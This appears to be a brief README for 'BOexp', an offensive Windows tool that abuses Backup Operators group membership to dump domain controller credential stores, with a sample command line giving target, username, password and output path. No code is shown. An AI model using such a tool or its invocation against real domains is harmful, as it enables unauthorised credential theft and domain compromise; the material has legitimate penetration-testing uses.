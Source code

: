 # BOexp
Privilege escalation using Backup Operators group to gain Domain Controller access.

backup operator 组用户特权利用获取域控相关凭据存储到域控目录

use:
BOexp.exe -t \\dc2008.vultest.com -u BOtest -p 1qaz@WSX -d vultest.com -o c:\users
![image](https://github.com/user-attachments/assets/dc6507c5-03d6-431d-a995-21f2f33b1531)


